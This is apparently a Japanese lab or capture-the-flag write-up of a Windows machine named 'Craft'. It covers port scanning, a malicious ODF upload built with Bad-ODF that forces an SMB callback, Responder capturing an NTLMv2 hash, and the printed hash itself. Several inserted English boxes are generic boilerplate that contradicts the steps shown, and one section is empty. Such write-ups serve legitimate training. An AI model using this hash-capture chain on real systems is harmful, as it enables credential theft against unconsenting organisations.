

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows (Server 2019 / Windows 10) |
| 難易度 | 記録なし |
| 攻撃対象 | Webアプリケーション (ODFファイルアップロード) |
| 主な侵入経路 | 悪意のあるODFファイルによるSMBコールバック -> NTLMv2ハッシュキャプチャ |
| 権限昇格経路 | 不要（ハッシュを直接取得） |

## 認証情報

```text
thecybergeek (NTLMv2ハッシュをキャプチャ — 下記参照)
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.169:80
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
```

ポート80のみが開放されており、Windows上でApache/PHPが動作していた。WebアプリケーションにはODF（OpenDocument Format）ファイルのアップロードフォームが存在した。

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

WebアプリケーションはODFファイルのアップロードを受け付けていた。Bad-ODFを使用して、開かれた際に攻撃者のSMBサーバーに接続する悪意のあるODFファイルを作成した:

https://github.com/lof1sec/Bad-ODF

Responderを起動し、SMB認証からNTLMv2ハッシュをキャプチャする準備を行った:

```bash
sudo responder -I tun0 -v
```

悪意のあるODFファイルをアップロードすると、ターゲットが接続してきてNTLMv2ハッシュが漏洩した:

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.169
[SMB] NTLMv2-SSP Username : CRAFT\thecybergeek
[SMB] NTLMv2-SSP Hash     : thecybergeek::CRAFT:d762b2bc23231e76:89849AF070CAE121AE7773CF31521B85:010100000000000000DD0DF1CAB1DC01032AD9CD193B0FB30000000002000800550047004A00410001001E00570049004E002D00560055004D004A004C004A005600590050005600540004003400570049004E002D00560055004D004A004C004A00560059005000560054002E00550047004A0041002E004C004F00430041004C0003001400550047004A0041002E004C004F00430041004C0005001400550047004A0041002E004C004F00430041004C000700080000DD0DF1CAB1DC010600040002000000080030003000000000000000000000000030000043ABF916FDC8A72DE8EA429BF9F6277BBC0E89B9782565732D93AB4DA393C12D0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100360036000000000000000000
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
このマシンはCraft2と同じ手法で解決した — ODFマクロとResponderによるNTLMv2ハッシュキャプチャが主要な攻撃パスであり、ハッシュの取得・クラック以外に追加の権限昇格は不要だった。

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- ODFマクロファイルにはSMBコールバックを埋め込むことができ、攻撃者が制御するサーバーへの認証を強制できる。
- ResponderはターゲットにSMB接続を発生させることができれば、NTLMv2ハッシュのキャプチャに効果的。
- Bad-ODFはハッシュキャプチャシナリオ用の悪意のあるODFドキュメント作成を自動化する。
- 最小限の攻撃面（ポート1つのみ）でも低リスクとは限らない — ドキュメントアップロード機能は武器化できる。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- Bad-ODF: https://github.com/lof1sec/Bad-ODF
- Responder: https://github.com/lgandx/Responder
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
